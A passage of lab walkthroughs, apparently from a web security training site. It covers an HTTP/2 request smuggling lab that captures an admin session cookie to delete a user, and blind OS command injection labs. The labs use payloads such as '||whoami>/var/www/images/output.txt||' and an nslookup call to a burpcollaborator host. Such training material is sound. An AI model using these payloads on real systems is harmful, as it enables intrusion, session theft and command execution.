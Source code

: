     **Name**
    
    `foo  
    `
    
    **Value**
    
    `bar\r\n  
    \r\n  
    GET /x HTTP/1.1\r\n  
    Host: YOUR-LAB-ID.web-security-academy.net  
      
    `
    
4.  Send the request. When the front-end server appends `\r\n\r\n` to the end of the headers during downgrading, this effectively converts the smuggled prefix into a complete request, poisoning the response queue.
    
5.  Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.
    
    **Note**
    
    If you receive some 200 responses but can't capture a 302 response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again.
    
6.  Copy the session cookie and use it to send the following request:
    
    `GET /admin HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Cookie: session=STOLEN-SESSION-COOKIE  
      
    `
    
7.  Send the request repeatedly until you receive a 200 response containing the admin panel.
    
8.  In the response, find the URL for deleting Carlos (`/admin/delete?username=carlos`), then update the path in your request accordingly. Send the request to delete Carlos and solve the lab.

---

# OS command injection

### Lab: Blind OS command injection with time delays

1.  Use Burp Suite to intercept and modify the request that submits feedback.
2.  Modify the `email` parameter, changing it to: `email=x||ping+-c+10+127.0.0.1||`
3.  Observe that the response takes 10 seconds to return.

### Lab: Blind OS command injection with output redirection

1.  Use Burp Suite to intercept and modify the request that submits feedback.
2.  Modify the `email` parameter, changing it to: `email=||whoami>/var/www/images/output.txt||`
3.  Now use Burp Suite to intercept and modify the request that loads an image of a product.
4.  Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command: `filename=output.txt`
5.  Observe that the response contains the output from the injected command.

### Lab: Blind OS command injection with out-of-band interaction

1.  Use Burp Suite to intercept and modify the request that submits feedback.
2.  Modify the `email` parameter, changing it to: `email=x||nslookup+x.burpcollaborator.net||`

**Note**

